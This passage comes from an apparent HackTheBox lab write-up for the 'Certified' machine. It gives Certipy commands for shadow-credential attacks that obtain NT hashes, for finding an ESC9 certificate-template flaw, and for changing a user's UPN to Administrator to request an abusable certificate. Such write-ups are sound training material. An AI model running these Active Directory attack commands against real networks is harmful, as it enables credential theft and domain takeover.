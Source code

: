 If clock skew is too great - sync kali time with the server 
```
sudo ntpdate 10.10.11.41
```

We got the NT hash for management_svc
![[HackTheBox/Windows/attachments/Pasted image 20250525214242.png]]

##### Exploit GenericWrite/GenericAll 

Use the exact same technique used to get the management_svc to get the ca_operator NT hash
###### Certipy 
```
certipy shadow auto -target certified.htb -dc-ip 10.10.11.41 -username management_svc@certified.htb -hashes :<MANAGEMENT_SVC HASH> -account ca_operator
```

![[HackTheBox/Windows/attachments/Pasted image 20250525214729.png]]

Yay! We got ca_operator's NT Hash!
![[HackTheBox/Windows/attachments/Pasted image 20250525214825.png]]

### Viewing vulnerable certificate as ca_operator
#### Certipy 

```
certipy find -dc-ip 10.10.11.41 -vulnerable -u ca_operator -hashes :<ca_operator NT Hash> -stdout
```

![[HackTheBox/Windows/attachments/Pasted image 20250525215248.png]]

Discover ESC9 CA certificate vulnerability 
![[HackTheBox/Windows/attachments/Pasted image 20250525215409.png]]
#### ESC9 Vulnerability Exploit 

[Certipy 4.0: ESC9 & ESC10 Blog Post](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)

Using Certipy to exploit ESC9, updating UPN, requesting cert, updating UPN, and then using the certificate.

##### Certipy 

Make ca_operator an administrator
```
certipy account update -u management_svc -hashes :<management_svc nt hash> -user ca_operator -upn Administrator
```

![[HackTheBox/Windows/attachments/Pasted image 20250525220047.png]]

Request certificate 
```
certipy req -u ca_operator -hashes :<ca_operator nt hash> -dc-ip 10.10.11.41 -ca certified-DC01-CA -template CertifiedAuthentication
```
- find `-ca` in certipy output 
- find `-template` near `-ca` in certipy output

